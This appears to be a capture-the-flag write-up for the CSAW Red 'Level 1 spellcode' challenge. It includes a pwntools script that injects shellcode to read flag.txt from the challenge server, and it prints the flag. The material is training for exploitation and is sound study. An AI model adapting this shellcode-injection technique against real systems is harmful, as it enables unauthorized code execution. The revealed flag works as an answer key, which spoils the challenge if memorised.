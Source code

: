 > Welcome Level 1 wizard! Write your own spellcode to pwn your way to the wizards' lab. (Attribution: the "spellcode" idea is not original, see [sourcery.pwnadventure.com](http://sourcery.pwnadventure.com/) (not part of the challenge.) For shellcoding references and examples, see "Hacking: the Art of Exploitation" by Jon Erickson or reference [shell-storm.org/shellcode](http://shell-storm.org/shellcode). For more Level 1 spells (not required to solve), see the D&D Player's Handbook, 5th edition. nc [pwn.red.csaw.io](http://pwn.red.csaw.io/) 5000

1. Look at the source code that they offer. 
    - The runGame() function reads in an input
2. Determine the filetype with:

    ```bash
     file level_1_spellcode
    ```

3. Write a script using pwntools to send shellcode

    ```python
    from pwn import *
    context(arch='i386', os='linux')

    r = remote('pwn.red.csaw.io', 5000)

    r.recvuntil('>')
    r.send('6\n')
    r.send(asm(shellcraft.cat('flag.txt')))
    r.send('\n')
    r.interactive()
    ```

4. The flag is flag{w3lc0m3_t0_sh3llc0d1ng!!!}
